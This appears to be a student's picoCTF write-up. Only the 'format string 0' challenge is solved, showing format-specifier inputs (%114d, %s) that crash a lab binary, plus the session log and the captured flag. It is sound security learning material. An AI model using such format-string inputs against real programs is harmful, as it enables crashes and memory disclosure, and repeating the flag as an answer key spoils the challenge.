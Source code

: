 # 1. buffer overflow 0

***

# 2. format string 0

## Description
> Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 62847

## Solution
On launching the instance, I was able to access a menu driven program that asked me to choose a burger for a customer. It was mentioned that the customer, Patrick, wanted a giant bite. This meant that the option having format specifier %114d which meant an integer of size 114 would be resulted. This was the correct pick. For the second customer, SpongeBob wanted to "break the shop". Hence I picked the Cla%sic_Che%s%steak and it turned out to be the right option. 

```bash
pri279-picoctf@webshell:~$ nc mimas.picoctf.net 57603
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```
## Concepts Learnt:
I learnt about different types of format specifiers. 

***

# 3. clutter-overflow

***



